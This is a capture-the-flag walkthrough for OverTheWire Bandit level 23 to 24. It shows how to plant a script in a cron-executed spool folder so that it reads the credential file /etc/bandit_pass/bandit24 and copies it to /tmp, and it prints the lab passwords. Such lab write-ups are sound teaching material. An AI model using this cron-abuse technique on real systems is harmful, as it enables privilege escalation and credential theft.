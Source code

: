 ```yaml
---
layout: default
title: Level 23 → Level 24
order: 24
---
```


# [Level 23 → Level 24](https://overthewire.org/wargames/bandit/bandit24.html)
After logging in with 

`ssh bandit23@bandit.labs.overthewire.org -p 2220`

Password: `0Zf11ioIjMVN551jX3CmStKLYqjk54Ga`

we find out that, just like in [Level 22 → Level 23]({{ site.baseurl }}/bandit/level-21_to_level-22), a program is running automatically at regular intervals from cron, the time-based job scheduler.

This time the game also tells us we are going to need to wirte our own shell-script. Fisrt, we have to look through the /etc/cron.d/ directory by using `cd /etc/cron.d/`, once we're in this directory, `ls` shows something like:

```
behemoth4_cleanup  cronjob_bandit22  cronjob_bandit24  leviathan5_cleanup    otw-tmp-dir
clean_tmp          cronjob_bandit23  e2scrub_all       manpage3_resetpw_job  sysstat
```

let's read the content of cronjob_bandit24 with `cat cronjob_bandit24`

```
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

This means that the cronjob_bandit24.sh script in the /usr/bin folder is executed. Let' see what this script does:

```
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

This script executes (only if the user is bandit23) and deletes files in the /var/spool/$myname/foo directory. Since the script's user is bandit24, we'll use bandit24 as the reuult of the `whoami` command.

We can exploit this script by adding a new script in the /var/spool/bandit24/foo directory. Remember, the above script runs with bandit24 permissions, so it can access bandit24's password.

Before doing this, we need to move into a temporary directory to store our password: let's move into /tmp with `cd /tmp`, then create our temp directory with `mktemp -d`. Then move into your new temp directory with `cd /tmp/tmp.3ei7PQxwvB` where `3ei7PQxwvB` is your temp directory name, and write our script:

`nano password.sh`

```
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.3ei7PQxwvB/password
```

where `3ei7PQxwvB` is your temp directory name. Let's give this file necessary permissions: `chmod +rx password.sh` first, then `chmod 777 /tmp/tmp.3ei7PQxwvB`. Then create your password file and give it full permissions: `touch password` first, then `chmod +rwx password`.

Now we need to move the script into /var/spool/bandit24/foo: `cp password.sh /var/spool/bandit24/foo/password.sh`

After doing this, we just need to check the password.sh file (`cat password.sh`) until we get the password:

> `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`